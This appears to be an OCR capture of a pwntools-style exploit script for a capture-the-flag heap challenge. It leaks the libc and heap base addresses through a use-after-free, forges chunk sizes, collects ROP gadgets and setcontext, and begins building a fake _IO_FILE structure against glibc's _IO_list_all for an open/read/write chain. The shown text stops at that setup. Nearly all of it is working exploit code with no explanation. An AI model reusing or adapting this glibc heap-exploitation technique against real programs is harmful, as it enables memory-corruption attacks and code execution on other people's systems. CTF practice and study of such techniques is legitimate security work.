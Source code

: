 ```plain
def edit(idx,content):
    choice(edit_idx)
    sla('Which one?\n',idx)
    sla('Content:\n',content)


add(0,0x500,'aaaa')
add(1,0x500,'aaaa')
delete(0)
show(0)

libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x1ecbe0
leak('libc_base ',libc_base)

delete(1)
add(2,0x420,'bbbb')
add(3,0x420,'bbbb')
add(4,0x420,'bbbb')

edit(0,'\x00'*0x420+p64(0)+p64(0x41))
edit(1,'\x00'*0x340+p64(0)+p64(0x41))

delete(3)
delete(4)
show(4)

heap_base=u64(p.recv(6)[-6:].ljust(8,'\x00'))-0x6d0
leak('heap_base',heap_base)

edit(0,'\x00'*0x420+p64(0)+p64(0x431))
edit(1,'\x00'*0x340+p64(0)+p64(0x431))

add(5,0x450,'bbbb')
add(6,0x450,'bbbb')
add(7,0x440,'bbbb')
add(8,0x440,'bbbb')
delete(5)

add(9,0x500,'bbbb')

delete(7)

pop_rdi = libc_base + next(libc.search(asm('pop rdi;ret;')))
pop_rsi = libc_base + next(libc.search(asm('pop rsi;ret;')))
pop_rdx_r12 = libc_base + next(libc.search(asm('pop rdx;pop r12;ret;')))
leave_ret = libc_base + next(libc.search(asm('leave;ret;')))

open_addr=libc.symbols['open']+libc_base
read_addr=libc.symbols['read']+libc_base
write_addr=libc.symbols['write']+libc_base
puts_addr=libc.symbols['puts']+libc_base
setcontext=libc_base+0x0000000000151990

leave_ret=libc_base+0x00000000000578c8

io_all = libc_base + libc.sym['_IO_list_all']  
wfile = libc_base + libc.sym['_IO_wfile_jumps']



lock = libc_base+0x1ee7d0    
magic_gadget = libc_base + 0x154dd0 +26
chunk0 = heap_base + 0xf20 #fake_IO
```